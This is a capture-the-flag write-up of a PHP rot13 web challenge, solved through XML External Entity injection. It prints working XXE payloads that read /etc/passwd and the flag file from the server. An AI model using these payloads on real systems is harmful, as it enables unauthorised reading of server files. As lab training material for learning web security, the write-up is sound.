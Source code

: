 # CipherText

# Description

```
Can you find the vulnerability in this "not at all usefull" Web app ? It might be due to not staying up to date.

https://web.ctf.devclub.in/web/3/
```

Not gonna lie, this challenge seemed like super secure and simple to me. It literally just rot13's the text you provide. By this time, I had solved all the other web challs, and I had no single clue of what's happening behind the back. From the challenge hint, it seemed like version update kinda issue, so I checked the PHP version, it was 5.6.14. It was pretty insecure, but which vuln do we exploit? With so many questions storming up my mind, I decided to open my swiss army knife, the legendary **Burp Suite**. Also, note that no hints were released by this time.

# Observation

Here are some of the approaches I thought, which might be happening in the background

Hmm...interesting? I tried entering the following text to confirm my understanding

- Sending array like `text[]=aryaman`

![burp-array](burp-1.png)

Now, we know that it uses `str_rot13()` in PHP to rot13 our text

- Sending some serialized string, but didn't result in any error, so no use

Still there was no significant progress, I grabbed a cup of coffee and returned after 10 mins, staring at the response in burp, in a hope that it will spit out the flag, when something caught my attention:

![Header](header.png)

Wait...what?! It accepts XML data too. Seems like, we're getting somewhere. Next, I tried injecting some XML data and it accepted it 

```xml
<!--?xml version="1.0" ?-->
<userInfo>
 <text>aryaman</text>
</userInfo>
```

Let's try to leak some more details by causing errors:

Payload:

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example pub "titan"> ]>
 <userInfo>
  <text>&example;</text>
 </userInfo>
```

Result: 

![Error-XML](warning.png)

On looking up about `DOMDocument::loadXML()` online, I found some interesting [blogs](https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection) on exploit POC of this vulnerability.


# Exploitation

Now that we know, it's accepting XML data and parsing them using `DOMDocument::loadXML()``, let's try to exploit it using XXE(XML External Entity injection)

Payload: 

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds>
    <text>&xxe;</text>
</creds>
```

It needs to be wrapped in the `creds` tree root, because while parsing the server would try to retrieve the value 
in something like:

```php
$creds = simplexml_import_dom($dom);
$text = $creds->text //our input
```

Result: 

![Passwd](passwd.png)

And now we've got some major progress over the challenge, as we've the rot13'ed /etc/passwd, so basically we can read any file in the server --> LFI vulnerability.

# Final payload

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///flag.txt" >]>
<creds>
    <text>&xxe;</text>
</creds>
```

![flag](flag.png)

We got this as the result: `PGS{byjlf_hm_yngrfg_f0sgjner}`

On putting it in [rot13](https://rot13.com), we have our flag. This challenge was probably my favorite challenge in this CTF, as it required awesome observational skills chained with web security knowledge to capture the flag.

Flag: ```CTF{olwys_uz_latest_s0ftware}```